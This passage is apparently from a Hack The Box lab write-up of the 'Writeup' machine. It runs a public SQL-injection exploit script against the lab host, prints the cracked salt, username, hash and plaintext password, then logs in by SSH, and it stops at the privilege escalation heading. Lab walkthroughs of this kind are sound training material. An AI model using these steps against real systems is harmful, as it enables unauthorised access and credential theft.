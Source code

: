 The script is written in python 2, so I set up a quick python virtual environment to run it in.

```bash
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/writeup]
└─$ virtualenv writeup
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/writeup]
└─$ source writeup/bin/activate
```

Then run the script with the URL and specify a wordlist so that it will crack the hash for us. You could run it with only the url and then use hashcat to crack the hash if you would like, but since it's an option I ran with it.  **Make sure to use the url for the writeup page, or you will trigger the DoS protection script and be banned for a little bit.**

```bash
┌──(writeup)─(dimondsec㉿hackbook)-[~/Documents/HTB/writeup]
└─$ python 46635.py --url http://10.10.10.138/writeup --crack -w /usr/share/wordlists/rockyou.txt
```

It's a little slow, but after a few minutes we'll see that it found a username and password hash/salt and that it was successfully able to crack it.

```bash
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

## User

While looking through the files earlier I discovered a login page at /writeup/admin (you could also discover this with something like gobuster), but the credentials we found didn't work. Let's try logging in with ssh.

```bash
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/writeup]
└─$ ssh jkr@10.10.10.138             
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$
```

Success!! We're in, and right away are able to find the user flag.

## Privilege Escalation
